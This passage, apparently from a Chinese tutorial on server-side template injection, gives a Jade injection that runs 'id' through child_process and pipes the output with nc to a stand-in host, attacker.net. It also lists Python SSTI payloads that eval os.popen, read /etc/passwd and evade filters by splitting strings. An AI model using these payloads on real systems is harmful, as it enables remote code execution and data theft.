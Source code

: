 确定有用的函数：

```jade
- var x = root.process
- x = x.mainModule.require
 
- x('a')
Cannot find module 'a'
```

最终 exp：

```jade
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

#### 六、拓展

##### 1.相关属性

__class__

```
python中类对象的 __mro__ 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。
__mro__
```

python中类对象的 `__mro__` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

__globals__

```
保存了函数所有的所有全局变量，在利用中，可以使用__init__获取对象的函数，并通过__globals__获取file、os等模块以进行下一步的利用
__subclasses__()
```

python的新式类都保留了它所有的子类的引用，`__subclasses__() `这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。因为python中的类都是继承object的，所以只要调用object类对象的 `__subclasses__() `方法就可以获取想要的类的对象。

##### 2.常见Payload

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )
```

##### 3.绕过技巧

字符串拼接

绕过技巧

```
().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()
request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]
```
